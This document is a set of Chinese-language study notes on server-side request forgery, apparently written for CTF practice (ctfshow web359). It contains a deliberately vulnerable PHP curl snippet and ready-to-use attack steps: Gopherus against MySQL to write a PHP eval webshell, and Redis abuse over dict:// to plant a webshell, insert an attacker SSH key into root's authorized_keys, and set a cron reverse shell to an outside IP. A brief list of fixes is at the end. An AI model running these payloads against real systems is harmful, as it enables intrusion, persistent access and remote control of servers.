

# <font style="color:#00329b;">SSRF服务端请求伪造漏洞简介</font>
### <font style="color:black;">服务端请求伪造(Server-Side Request Forge,SSRF)，攻击者利用SSRF漏洞通过服务器发起伪造请求，这样就可以访问到内网的数据，进行内网信息探测或者内网漏洞利用。</font>
# <font style="color:#00329b;">漏洞成因</font>
```sql
  SSRF漏洞形成的原因是因为应用程序存在可以从其他服务器获取数据的功能，但是服务器的地址并没有做严格的过滤，导致应用程序可以访问任意的URL链接，攻击者通过精心构造URL链接，可以通过SSRF漏洞进行以下攻击：
```

```php
<?php 
  $ch = curl_init(); 
curl_setopt($ch, CURLOPT_URL, $_GET['url']); 
#curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_HEADER, 0); 
#curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTPS);
curl_exec($ch); 
curl_close($ch); 
?>
```

# ssrf明细


## gopher打mysql未授权(ctfshow web359)
[Gopherus-master.zip](https://www.yuque.com/attachments/yuque/0/2025/zip/26698826/1751776858790-748b1655-2b94-4982-b96d-0700de5a6a06.zip)

1. `python2 gopherus.py --exploit mysql`
2. `root`
3. `select "<?php @eval($_POST[a]); ?>" into outfile '/var/www/html/3.php';`
4. 记得url强制编码  


## 
## ssrf打redis
### 写webshell
```php
dict://localhost:6378/flushall
dict://localhost:6378/config:set:dir:/var/www/html/app1
dict://localhost:6378/config:set:dbfilename:hh.php
dict://localhost:6378/set:1:"\x3c\x3f\x70\x68\x70\x20\x40\x65\x76\x61\x6c\x28\x24\x5f\x50\x4f\x53\x54\x5b\x77\x5d\x29\x3b\x3f\x3e"
dict://localhost:6378/save

webshell密码w
```

### 使用公私钥登录
```php
nc 192.168.147.130 6378
ping 
flushall
config set dir /root/.ssh/
config  set dbfilename authorized_keys
set x "\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDJpLaHb+Qqzugsui0PT+5lbH70vAva31UVVc2H9wQcqZHcbM+Io18KVQgVXaMrckwE1c7H6CQK4vWSlBwLKQx82LMWtAak1A2blzpfampKw5jHMTUI8cttIDhslR/cbLV0c2lRQTwxsoOC20g5zIA5iTjRw/9nisPFkRdEAg/Hi9pmyepZQFQM9HVhpRtLuHbovQEwneQr/4l4gOU6gaSiQGSpaJaOAiAxbFSN/A5xcJLwHeINjuQZrtgNr5kF8Mk56avjLUA9oK8i1GTRUqqMiVygilz0tTBdc9MwsL2rSkFV44xv5qQQvmKOj/oZHAEj//CAIPoxj33pGJ4RL2B5C38FQeYY2AIWUi4FIHZWnKT7s/7QK6fdyNUqA2g28Dmn49kVOBYm7evMFA38g4cwFC2kRUCE9ZYIIL8VIxo7fQFT286quTGmmCsZCQshcN82tzzo69xAz6lKtLJ2CMWP3dI7ezfcVzl83n3tb9MAWUpzVnmbxph/dmQWvVoGd+c= root@kali\n\n\n"
save
```

### redis弹shell
```php
config:set:dir:/var/spool/cron
config:set:dbfilename:root
set:ziye2:"\n\n* * * * * bash -i>& /dev/tcp/45.32.19.190/4545 0>&1\n\n"
save

```

### 主从复制
[Redis主从复制getshell技巧 - Bypass - 博客园](https://www.cnblogs.com/xiaozi/p/13089906.html)

# 漏洞修复
```sql
1. 过滤请求协议，只允许http或者https开头的协议。
2. 严格限制访问的IP，只允许访问特定IP。
3. 限制访问的端口，只允许访问特定的端口。
4. 设置统一的错误信息，防止造成信息泄露。

```

